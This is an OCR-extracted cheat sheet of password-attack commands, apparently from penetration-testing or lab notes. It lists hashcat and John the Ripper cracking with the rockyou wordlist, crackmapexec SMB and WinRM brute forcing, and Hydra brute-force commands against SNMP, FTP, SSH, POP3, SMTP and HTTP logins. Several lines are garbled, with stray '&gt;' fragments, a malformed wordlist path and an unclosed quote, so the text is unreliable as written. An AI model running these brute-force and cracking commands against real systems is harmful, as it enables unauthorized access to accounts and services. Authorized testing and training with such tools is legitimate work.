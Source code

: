 > $ Find mode in hashcat  
> ▪ hashcat --example hashes  
> $ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

John:

> $ john files --wordlist=/usr/share/wordlists/rockyou.txt

## PSSWD Mutation

Hashcat

> $ hashcat -m 0 bfield.hash /usr/share/wordlists/rockyou.txt -r rules

## PSSWD BruteForcing

Crackmapexec

> $ Enumerate password policy  
> ▪ crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol  
> $ Bruteforce SMB  
> ▪ crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst  
> $ Bruteforce winrm  
> ▪ crackmapexec winrm 10.10.10.172 -u /root/users.lst -p /root/passwords.lst

Hydra

> $ Hydra brute force against SNMP  
> ▪ hydra -P password-file.txt -v &gt; $ip snmp

```text
> $ Hydra FTP known user and rockyou password list
```

▪ hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV &gt; $ip ftp

```text
> $ Hydra SSH using list of users and passwords
```

▪ hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u &gt; $ip ssh

```text
> $ Hydra POP3 Brute Force
```

▪ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f &gt; $ip pop3 -V

```text
> $ Hydra SMTP Brute Force
```

▪ hydra -P /usr/share/wordlistsnmap.lst &gt; $ip smtp -V

```text
> $ Hydra attack http get 401 login with a dictionary
```

▪ hydra -L ./webapp.txt -P ./webapp.txt &gt; $ip http-get /admin
